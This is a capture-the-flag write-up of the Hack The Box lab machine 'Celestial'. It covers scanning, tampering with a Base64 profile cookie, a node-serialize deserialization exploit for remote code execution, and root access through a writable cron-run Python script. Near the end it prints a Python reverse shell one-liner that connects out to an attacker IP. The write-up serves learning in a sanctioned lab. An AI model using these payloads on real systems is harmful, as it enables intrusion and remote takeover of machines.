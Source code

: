 ```yaml
---
"title": "Hack The Box - Celestial"
"date": 2020-04-07
"tags": ["linux", "medium", "node", "serialize", "cron"]
"keywords": ["linux", "medium", "node", "serialize", "cron"]
"author": "Ghostbyt3"
"description": "We are going to pwn Celestial by 3ndG4me from Hack The Box."
"featured_image": "/img/htb-celestial/1.png"
"layout": "single"
"showTableOfContents": true
"authorbox": true
"pager": true
"toc": true
"mathjax": true
"sidebar": "right"
"subtitle": "Writeup"
---
```



![Untitled](/img/htb-celestial/1.png)

We are going to pwn Celestial by 3ndG4me from Hack The Box.

Link : [https://www.hackthebox.eu/home/machines/profile/130](https://www.hackthebox.eu/home/machines/profile/130)


Lets Begin with our Initial Nmap Scan.

## Nmap Scan Results:

```
PORT     STATE SERVICE VERSION
3000/tcp open  http    Node.js Express framework
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.12 (95%), Linux 3.13 (95%), Linux 3.2 - 4.9 (95%), Linux 3.8 - 3.11 (95%), Linux 4.8 (95%), Linux 4.4 (95%), Linux 3.16 (95%), Linux 3.18 (95%), Linux 4.2 (95%), ASUS RT-N56U WAP (Linux 3.4) (95%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
```

Only One port Available and it is a Node.js Express framework so let's check the webpage of it.

## HTTP:

It displayes a message and nothing else.[br/](br/)
![Untitled](/img/htb-celestial/2.png)

Since it is ``Node.js`` framework, Capture the webpage request in burp and check for interesting things.[br/](br/)
![Untitled](/img/htb-celestial/3.png)
There is  ``Profile`` cookie in request header and its seems like Base64 encoded, and the Cookie start with ``eyJ`` it is JSON Web Token. 

It is Base64 encoded cookie this information is displayed in response header.[br/](br/)
![Untitled](/img/htb-celestial/4.png)

Since it is Base64 encoded cookie, why dont we change it and encode it with base64 and pass it as cookie.[br/](br/)

I changed the ``"num":"2"`` to ``"num":"3"`` and encoded it with base64.
![Untitled](/img/htb-celestial/5.png)
Now I copied that base64 encoded cookie and pass it to the Request Header Cookie.[br/](br/)

The Output Now changes to ``Hey Dummy 3 + 3 is 33`` so If we change the ``num`` in the cookie, it changes in the response. This is because of a module called [node-serialize](https://www.npmjs.com/package/node-serialize)[br/](br/)
![Untitled](/img/htb-celestial/5.1.png)

I searched for NodeJs Serialize exploits and found this link.
>[https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/](https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/)

According to the article, the data we send as a cookie value was passed into the ``unserialize()`` function which unserialize the serialized format code and execute it accordingly. Since Node.js and plenty of other languages rely on the serializtion of the objects, the main issue lies in the parsing of this data whether they contain any malicious code or not. Taking advantage of this, we can generate a payload and due to which try to execute something that can help us in futher exploitation. Once payload created, we can pass it as a cookie value, which then passed into `unserialize`, hence deserialization of the our payload will execute the code.

## Payload Generation:

I started with [nodejsshell.py](https://github.com/ajinabraham/Node.Js-Security-Course/blob/master/nodejsshell.py) to create our reverse shell with Our machine IP.[br/](br/)
![Untitled](/img/htb-celestial/6.png)

We need to generate the serialize payload by using ``log.js``[br/](br/)

``log.js``
```
var y = {
 rce : function(){}
}
var serialize = require('node-serialize');
console.log("Serialized: \n" + serialize.serialize(y));
```
Before doing this make you sure you need to do this.
```
apt install nodejs
apt install npm
npm install node-serialize
```

Copy the payload we got from the python script and paste that in ``function(){PAYLOAD}`` and execute it.
![Untitled](/img/htb-celestial/7.png)

Now we got Serialized payload, Copy the payload and encode as Base64, don't forgot to add brackets ``()`` after the function body.
![Untitled](/img/htb-celestial/8.png)

## Gaining Shell:

Paste the encoded Base64 in ``Cookie : Profile=``, send the request and start the listener.
![Untitled](/img/htb-celestial/9.png)
Got the shell as user ``sun``. You can get the user Flag in ``/Documents``.


## Privilege Escalation:

Uploaded ``pspy`` to the box to check any process running in the background.

>pspy is a command line tool designed to snoop on processes without need for root permissions. It allows you to see commands run by other users, cron jobs, etc. as they execute. Great for enumeration of Linux systems in CTFs. Also great to demonstrate your colleagues why passing secrets as arguments on the command line is a bad idea.

![Untitled](/img/htb-celestial/10.png)
There is a python script in ``/Document/script.py`` which is running as root. We have write permission on the file too. So I upload python reverese shell.

```
$ echo 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.3",5555));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' >> script.py
```
Started my listener and I got Root!![br/](br/)
![Untitled](/img/htb-celestial/11.png)

